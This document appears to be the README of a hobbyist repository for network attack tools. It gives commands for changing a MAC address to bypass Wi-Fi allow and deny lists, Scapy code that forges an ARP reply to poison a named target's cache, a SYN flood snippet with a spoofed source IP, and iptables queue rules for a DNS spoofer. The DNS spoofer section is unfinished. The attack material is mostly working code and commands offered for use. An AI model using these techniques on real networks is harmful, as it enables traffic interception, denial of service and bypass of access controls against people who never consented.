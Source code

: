 # We will be coding our own SPOOFERS, SNIFFERS, DNS SNIFFERS,
# PACKET SNIFFERS, FTP CREDENTIAL SNIFFERS MAC CHANGERS ANS SO ON.........

### 1)MAC CHANGERS:

    IF SOME WIFI THAT EITHER USERS BLACKLIST OR WHITE LIST YOU CAN USE PROGRAM TO BYPASS THESE LISTS.

    # macchanger --show eth0
    # sudo macchanger --mac=aa:bb:ee:ff:ee:SS eth0
    # using linux commands:
        # sudo ifconfig eth0 down
        # sudo ifconfig eth0 hw ether AA:BB:CC:DD:EE:FF
        # sudo ifconfig eth0 up



### 2)ARP packets
      #arp -a
      #ls(ARP)
      #broadcast = Ether(dst="ff:ff:ff:ff:ff:ff")
      #arppacket = ARP(pdst='192.168.43.1')
      #arppacket.show()
      #finalpacket=broadcast/arppacket
      #finalpacket.show()
      #answer=srp(finalpacket,timeout=2,verbose=True)[0]
      #macaddress=answer[0][1].hwsrc

  #crafting malicious packets:
      #finalpacket.pdst='192.168.43.56'
      #answer=srp(finalpacket,timeout=2,verbose=False)[0]
      #mac=answer[0][1].hwsrc
      #packet=ARP(op=2,hwdst='78:2b:46:74:af:40',pdst='192.168.43.56',psrc='192.168.43.1)
      #send(packet,verbose=False)



    pdst=Pdestination stands for target IP address
    hwdst=Hardware destination stands fot target Mac address
    psrc=pSource stands for source of our Ip location
    hwsrc=Hardware source stands for source of our Mac location
    op = type of packet we wanted to send(1-arp request,2-arp reply)

###  3)SYNFLOODER ATTACK:

  Sending TCP packets to target, spamming it with a bumch of packets and them macking an over connection to open port and making it not to run any software on the open port or connect to internet.

   #scapy
            # IPayer = IP()
            # IPlayer.show()
            # TCPlayer = TCP()
            # pkt = IPlayer/TCPlayer
            # raw = Raw()
            # pkt = pkt/raw
            # pkt.src = '192.168.43.150'
            # pkt.dst = '192.168.43.56'
            # pkt.src = '8.8.8.8'
            # pkt.load = 'hello bro I am Danger '
            # send(pkt)

### DNS SPOOFER

           # iptables --flush
           # iptables -I FORWARD -j NFQUEUE --queue-num 0
           # iptables -I OUTPUT -j NFQUEUE --queue-num 0
           # iptables -I INPUT -j NFQUEUE --queue-num 0

